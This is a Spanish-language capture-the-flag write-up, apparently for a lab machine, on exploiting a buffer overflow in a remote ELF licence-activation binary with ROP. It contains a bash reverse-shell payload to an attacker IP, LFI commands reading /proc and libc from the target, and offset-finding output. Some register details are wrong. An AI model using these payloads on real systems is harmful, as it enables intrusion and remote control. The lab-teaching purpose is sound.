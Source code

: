 Vemos primero las protecciones:
```console
└─$ file ./activate_licens 
./activate_licens: ELF 64-bit LSB pie executable, x86-64, dynamically linked, /lib64/ld-linux-x86-64.so.2
gef➤  checksec
Canary                        : ✘ -> 
NX                            : ✓ -> no se puede ejecutar shellcode en la pila
PIE                           : ✓ -> memoria aleatorizada
Fortify                       : ✘
RelRO                         : Full -> No podemos modificar la tabla GOT
```
## Buffer overflow:
Antes de pensar en el ataque hay que ver lo primero de cualquier buffer overflow ¿Cuando corrompemos la pila (sobreescribir rip)?
```console
gef➤ pattern create 1024
aaaaaaa...aaaaf
└─$ printf "\x00\x00\x03\x00aaaaaaa...aaaaf" | nc localhost 6669
# SEGFAULT
$rsp   : 0x007fffffffded8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x005555555592a0  →  "[+] activated license: aaaaaaaabaaaaaaacaaaaaaadaa[...]"
gef➤ pattern offset $rsp
[+] Found at offset 520 (little-endian search) likely
```
Es decir a los 520 bytes basura empezamos a escribir en el putnero de instruccion (rsp) a partir del cual todo lo que pongamos se ejecutará.

## Descripción del ataque:
Este binario tiene de especial unas cuantas protecciones (por ejemplo NX que nos impide hacer un shellcode buffer overflow) y que es un
binario remoto, es decir se interactua con el a partir de subir una llave.key a una página web.
Por lo que esa llave que se sube tiene que ser epecial, dandonos una reverse shell:
```system(bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1')```

Como estamos en 64 bytes tenemos que tirar de ROP:
En 64 bytes las funciones toman sus argumentos de los registros del procesador en este orden de prioridad -> rdi, rdi, rdx, r8, r9  
Ejemplo -> ```system("whoami")```. Si en \[rdi] está la cadena "whoami" y luego se llama a system(), este "whoami" será su argumento.

## Ataque: obteniendo las direeciones necesarias:

Para hacer un ROP hay que saber ciertas direcciones (las que están en la maquina victima por medio del LFI)
Primero hay que conseguir la libc que esta usando:
```console
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/413/maps | base64 -d  | grep "libc"
7fc8a1464000-7fc8a1489000 r--p 00000000 08:01 3634                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/usr/lib/x86_64-linux-gnu/libc-2.31.so | base64 -d > libc-2.31.so
```
Luego hay que saber las direcciones base (libc y el binario):
Como las direcciones cambian siemore que se reinicia la maquina con este script he automatizado su obtención:
```bash
base64_url="http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource="
pid=$(curl -s $base64_url/proc/sched_debug | base64 -d | grep "activate_licens" | awk '{print $3}') 
```